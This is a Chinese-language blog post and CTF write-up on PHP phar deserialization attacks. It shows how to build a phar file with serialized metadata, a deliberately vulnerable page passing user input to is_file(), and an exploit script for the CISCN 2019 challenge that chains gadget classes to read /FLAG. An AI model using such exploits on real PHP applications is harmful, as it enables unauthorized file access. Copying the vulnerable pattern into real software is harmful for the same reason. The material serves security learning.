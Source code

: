 ```yaml
---
layout: post
title: "php反序列化之phar学习"
subtitle: "pahr in php unserialize"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - REVERSE
  - 二进制安全
  - x86Linux 
---
```


前言
--
- phar在php反序列化中的利用，在2018年blackhat上被发布。
- phar相关的利用文章已经在网上满天飞了，我也是学习这些文章过来的。

0x01 WTF Phar?
==
	phar的本质是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

phar可以理解为一个代码段，格式为xxx<?php code;__HALT_COMPLIER();?> 前面素问u哦为，最后一定要用**__HALT_COMPILER();?>**结尾，否则phar扩展无法识别。

0x02 How to make a pahr file
==
- 在自己的环境中需要把pahr.readonly设置为Off
- 编写一个名为phar.php文件
- 本文phar文件放在/test/pahr/phar.php
代码：
```php
<?php

class hello {

}
$phar = new phar("hello.phar");

$phar -> startBuffering();

$phar -> setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new hello();

$o -> say = "hello";

$phar -> setMetadata($o);

$phar->addFromString("hello.txt", "hello!"); //添加要压缩的文件

$phar->stopBuffering();

?>
```

访问后会生成hello.phar

![image-20210121164926072](https://raw.githubusercontent.com/Rand0mPythoner/imgs/master//blog-imgimage-20210121164926072.png)

我们meta-data的序列化数据已经被存储进去了。

有序列化便有反序列化，已经有人总结出哪些函数读取phar文件会反序列化了。

- **图片转自seebug**
- **https://xz.aliyun.com/t/2715 **
![image-20210121165309331](https://raw.githubusercontent.com/Rand0mPythoner/imgs/master//blog-imgimage-20210121165309331.png)

我们编写一个读取文件的php文件：

```php
<?php

class hello{
	function __destruct(){
		echo $this -> say;
	}
}

is_file($_GET['file']);

?>
```

访问：

![image-20210121165919522](https://raw.githubusercontent.com/Rand0mPythoner/imgs/master//blog-imgimage-20210121165919522.png)

尝试把文件名修改成.jpg:![image-20210121170053589](C:\Users\11699\AppData\Roaming\Typora\typora-user-images\image-20210121170053589.png)


总结
==
所以我们要挖掘phar反序列化要以下条件：

- 有一个可以上传文件的上传点。
- 有一个可以读取文件的店
- 有一个反序列化的利用class

CTF实战
==
CISCN_2019_WEB_1

class.php
```php
public function __destruct() {
        $table = '<div id="container" class="container"><div class="table-responsive"><table id="table" class="table table-bordered table-hover sm-font">';
        $table .= '<thead><tr>';
        foreach ($this->funcs as $func) {
            $table .= '<th scope="col" class="text-center">' . htmlentities($func) . '</th>';
        }
        $table .= '<th scope="col" class="text-center">Opt</th>';
        $table .= '</thead><tbody>';
        foreach ($this->results as $filename => $result) {
            $table .= '<tr>';
            foreach ($result as $func => $value) {
                $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
            }
            $table .= '<td class="text-center" filename="' . htmlentities($filename) . '"><a href="#" class="download">ä¸è½½</a> / <a href="#" class="delete">å é¤</a></td>';
            $table .= '</tr>';
        }
        echo $table;
    }
}
```
注意这里的__destruct
我们只需要控制$this->funcs是flag文件的内容即可
exp.php
```
<?php

class User {
    public $db;
}

class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/FLAG';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); 

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new User();
$o->db = new FileList();

$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```
同时我们有个读文件的gadgets:

![image-20210121170840770](https://raw.githubusercontent.com/Rand0mPythoner/imgs/master//blog-imgimage-20210121170840770.png)

